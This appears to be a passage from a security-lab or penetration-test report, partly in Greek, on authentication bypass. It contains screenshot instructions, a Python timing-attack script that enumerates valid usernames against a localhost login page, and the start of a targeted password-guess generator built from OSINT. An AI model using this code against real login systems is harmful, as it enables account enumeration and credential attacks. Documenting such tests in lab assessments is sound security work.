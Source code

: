 ### 2.3 Authentication Bypass - Συστημική Ανάλυση

#### 2.3.1 Multi-Vector Authentication Attacks

**[ΟΔΗΓΙΕΣ SCREENSHOT AUTH-ADV-1]**
```
Τίτλος: Response Time Analysis για User Enumeration
Εργαλείο: Custom Python script με matplotlib
Δείξτε:
- Graph με response times για valid vs invalid users
- Statistical significance (>50ms difference)
- Automated user enumeration results
```

**Advanced Enumeration Script**:
```python
import requests
import time
import statistics
import matplotlib.pyplot as plt

def measure_response_time(username, password):
    times = []
    for _ in range(10):
        start = time.time()
        requests.post('http://localhost:8000/login/', 
                     data={'username': username, 'password': password})
        times.append((time.time() - start) * 1000)
    return statistics.mean(times)

# Test valid vs invalid users
valid_users = ['admin', 'testuser', 'victim1']
invalid_users = ['notexist1', 'notexist2', 'notexist3']

valid_times = [measure_response_time(u, 'wrong') for u in valid_users]
invalid_times = [measure_response_time(u, 'wrong') for u in invalid_users]

# Plot results
plt.figure(figsize=(10, 6))
plt.boxplot([valid_times, invalid_times], labels=['Valid Users', 'Invalid Users'])
plt.ylabel('Response Time (ms)')
plt.title('User Enumeration via Timing Attack')
plt.savefig('user_enumeration_timing.png')
```

#### 2.3.2 Password Attack Sophistication

**Intelligent Password Generation**:
```python
def generate_targeted_passwords(username, company_info):
    """Generate likely passwords based on OSINT"""
    passwords = []
    
    # Common patterns
    patterns = [
        f"{username}123",
        f"{username}2024",
        f"{company_info['name']}123",
        f"{username}@{company_info['name']}",
        "Password123!",
        "Welcome123!",
    ]
    
    # Seasonal variations
    seasons = ['Spring', 'Summer', 'Fall', 'Winter']
```
